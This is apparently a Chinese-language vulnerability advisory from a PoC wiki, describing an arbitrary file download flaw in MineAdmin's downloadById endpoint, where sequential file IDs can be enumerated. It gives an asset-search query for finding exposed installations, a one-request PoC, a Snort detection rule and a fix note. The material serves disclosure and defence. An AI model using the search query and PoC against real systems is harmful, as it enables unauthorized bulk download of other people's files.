

# MineAdmin企业级后台管理系统downloadById任意文件下载漏洞

MineAdmin官网：https://doc.mineadmin.com/

资产测绘语法：body="MineAdmin"

# 影响版本

MineAdmin v1.x
MineAdmin v2.x

# **漏洞描述:** 

MineAdmin后台管理系统基于 Hyperf 框架开发。是一个后台权限管理系统，提供完善的权限体系，让开发者把注意力集中到具体业务当中，降低开发成本，提高项目效率。/system/downloadById?id=处存在任意文件下载漏洞由，于文件 ID 是自增数字，攻击者可通过枚举 ID 批量下载全站附件。

# 漏洞复现

POC/EXP：

```
GET /system/downloadById?id=3 HTTP/1.1
Host:127.0.0.1
```




sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"MineAdmin - Arbitrary File Download via downloadById";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri; content:"/system/downloadById";
    http.uri; content:"id=";
    metadata:
        service http,
        affected_product "MineAdmin企业级后台管理系统",
        vulnerability_type "Arbitrary File Download",
        severity "high";
    classtype:web-application-attack;
    sid:1000576;
    rev:1;
    priority:1;
)
```

# 漏洞修复

system/downloadById接口处加强权限校验。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
